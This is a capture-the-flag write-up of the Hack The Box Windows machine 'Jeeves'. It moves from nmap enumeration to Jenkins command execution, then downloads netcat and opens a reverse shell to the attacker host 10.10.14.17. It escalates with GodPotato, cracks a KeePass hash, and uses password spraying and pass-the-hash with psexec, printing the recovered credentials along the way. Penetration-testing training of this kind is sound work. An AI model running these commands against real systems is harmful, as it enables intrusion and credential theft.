- Machine Name: Jeeves
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Thu Apr 17 23:05:35 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.63
Increasing send delay for 10.10.10.63 from 0 to 5 due to 51 out of 168 dropped probes since last increase.
Increasing send delay for 10.10.10.63 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.10.63
Host is up, received echo-reply ttl 127 (0.31s latency).
Scanned at 2025-04-17 23:05:36 EDT for 2079s
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 55172/tcp): CLEAN (Timeout)
|   Check 2 (port 17552/tcp): CLEAN (Timeout)
|   Check 3 (port 48293/udp): CLEAN (Timeout)
|   Check 4 (port 23744/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
| smb2-time: 
|   date: 2025-04-18T08:39:36
|_  start_date: 2025-04-18T08:03:34

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 23:40:15 2025 -- 1 IP address (1 host up) scanned in 2080.56 seconds
```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port 80, let’s check what’s running on it (Obiviously HTTP server) but what kind, to find out let’s visit the website in web browser



Ohh, it’s a searching site let’s check it’s source by **CTRL + U**



It’s just simple site, means if we click on search button it will redirect us to error.html, let’s check that



it’s not real error it’s just png file 



let’s try dir/file fuzzing using gobuster

```bash
gobuster dir -u http://10.10.10.63/ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt
```



i tried raft-medium-directories.txt,raft-medium-files.txt but didn’t find anything useful

### Port 445/SMB

SMB is open on the target machine let’s try Null session 

```bash
smbclient -L //10.10.10.63 -N
```



### Port 135/MSRPC

let’s check the MSRPC using rpcclient

```bash
rpcclient -U "" -N 10.10.10.63 
```



No Access as well

### Port 50000/HTTP (Jetty 9.4.z-SNAPSHOT)

port 50000 is running jetty server let’s open it in web browser



Let’s try directory bruteforce using gobuster this time i didn’t get any hit from raft-medium-directories.txt so i used directory-list-2.3-medium.txt from seclists



let’s visit the /askjeeves



to get Command execution let’s create a new job by clicking on *create new jobs*



give the project name whatever you want, select Freestyle project and click on OK



then you’ll be redirected to project configuration page, scroll down and find build section click on *add build step > Execute Windows Batch Command*



to confirm command execution we’ll simply run the `ping -n 1 10.10.14.17` command and start tcpdump on kali to capture ICMP traffic using `sudo tcpdump -i tun0 icmp -v` 



then click on save save



after that click on *build now* to run the build and it will execute our command



we got the ICMP echo request to our kali means the command successfully executed.

### It’s Shell Time!!

let’s transfer the nc.exe via curl and python http server and get that shell

start python http server where your nc.exe is located `python3 -m http.server` 

to edit the same build, go to *configuration* add 2 commands 

1. `curl [http://10.10.14.17/nc.exe](http://10.10.14.17/nc.exe) -o \users\public\nc.exe` - to download nc.exe from our python web server and save it to C:\Users\public directory
2. `\users\public\nc.exe 10.10.14.17 443 -e cmd`  - to get netcat reverse shell on our kali machine on port 443, start nc listener before build project



but it shows the error while run the build



let’s use the smb server ti transfer the nc.exe

start smb server using,

```bash
impacket-smbserver test . -user admin -password admin -smb2support
```



add the above single command and see if it’s working or not. save and run build and see if we get any hit to our smbserver



Great so the net use command is working, let’s copy the nc.exe to \users\public\nc.exe



save and build the project





i’ll always check my permissions on the machine using `whoami /priv` command work similar as `sudo -l` 



**SeImpersonatePrivilege: great permission to get SYSTEM shell**

i’ll use [GodPotato](https://github.com/BeichenDream/GodPotato/releases) transfer it to target machine using smb `copy \\10.10.14.17\test\GodPotato-NET4.exe .` 



running `tree /a /f` command from C:\Users directory i found CEH.kdbx the keepass database file at kohsuke user’s Documents folder



let’s transfer the CEH.kdbx to our kali using smb

```bash
copy CEH.kdbx \\10.10.14.17\test\
```

to crack it’s master password we’ll use keepass2john and hashcat 

```bash
keepass2john CEH.kdbx > keepass.hash
```



to crack hash with hashcat we need to modify the hash and remove file name `CEH:` hash should be starting from `$keepass$` 

final hash looks like below

```bash
$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
```



now let’s open the keepass db file using `keepassxc` 



we found bunch of credentials let’s create a password list and spary password to administrator account

i created three files, user.txt, password.txt and ntlm

```bash
kali@kali:~/hackthebox/windows/jeeves$ cat password.txt                             
F7WhTrSFDKB6sxHU1cUn
pwndyouall!
lCEUnYPjNfIuPZSzOySA
S1TjAtJHKsugh9oC4VZl

kali@kali:~/hackthebox/windows/jeeves$ cat users.txt   
Administrator
bob
kohsuke

kali@kali:~/hackthebox/windows/jeeves$ cat ntlm     
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

then i used netexec to spary password to all accounts 

```bash
netexec smb 10.10.10.63 -u users.txt -p password.txt
```



what about NTLM!

```bash
netexec smb 10.10.10.63 -u users.txt -H e0fb1fb85756c24235ff238cbe81fe00
```



-H option pass only LM hash **e0fb1fb85756c24235ff238cbe81fe00**

now as we have the valid credentials let’s psexec as administrator

in impacket-psexec we need to specify the full NTLM hash to `-hashes` option

```bash
impacket-psexec Administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```



Uhh! root.txt is not at the Administrator’s Desktop let’s use `tree /a /f` from C:\Users directory to see where the root.txt is located, also we can use `dir /d/s root.txt` to only search for root.txt file

also administrator desktop has file named hm.txt it says flag is elsewhere look deeper



it says the look deeper, what about alternate data streams

***Alternate Data Streams (ADS)*** in Windows, a feature of the New Technology File System (NTFS), **allow files to contain multiple streams of data beyond the primary file content**. These additional streams can be used to store metadata, hidden information, or even entire files within the main file record. 

> ***To view alternate data streams (ADS) in Windows CMD, use the `dir /r` command. This command lists all files and directories in the current directory, including any ADS associated with them.***
> 

> ***To view the contents of a specific ADS, use the `more <file.txt:adsname>` command***
> 



yes it’s inside the Alternate Data Steam, let’s read it using `more < hm.txt:root.txt` 

